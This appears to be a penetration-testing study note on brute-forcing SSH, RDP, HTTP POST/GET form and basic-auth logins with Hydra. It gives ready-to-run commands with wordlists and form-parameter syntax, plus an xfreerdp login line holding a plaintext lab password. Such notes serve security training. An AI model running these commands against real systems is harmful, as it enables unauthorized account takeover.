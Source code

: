 
# SSH

```
sudo hydra -l $username -P ~/Desktop/rockyou.txt ssh://$IP -s $port -t 64 -I
```

# RDP
password spraying

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "password_string" rdp://$IP -t 64 -I
```


#xfreerdp
```
xfreerdp /v:192.168.231.202 /u:justin /p:'SuperS3cure1337#' /cert-ignore /timeout:60000
```


# HTTP POST

we need to add **http-post-form** parameter in hydra. It takes 3 colon arguments
1. which page
2. login request (can get by burp)
3. Failed login attempt (to make it different from successful)

```
hydra -l user -P ~/Desktop/rockyou.txt $IP http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid" -t 64 -I
```

![[Pasted image 20240508124806.png]]

![[Pasted image 20240508124912.png]]


# HTTP GET

check request by burp or network tab
![[Pasted image 20240508130117.png]]

Also there can be get form then we have to use following syntax
```
hydra -l admin -P /root/Desktop/wordlists/test.txt dvwa http-get-form "/dvwa/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect."
```

![[Pasted image 20240508130419.png]]
with this type of form. (it is post request but you get the idea)

### When there's just http-get only
![[Pasted image 20240508130538.png]]

You can notice that it only have http-get and don't send any error or anything
not even anything in BURP!

![[Pasted image 20240508130644.png]]

**no field to target!**

#### then use hydra http-get:$IP

```
hydra -l admin -P ~/Desktop/rockyou.txt http-get://$IP -t 64 -I
```

![[Pasted image 20240508130752.png]]

![[Pasted image 20240508130854.png]]
(DOUBLE CROSS THAT IT'S JUST A GET REQUEST)



https://notes.benheater.com/books/hydra/page/brute-force-http-basic-authentication-with-hydra

https://github.com/gnebbia/hydra_notes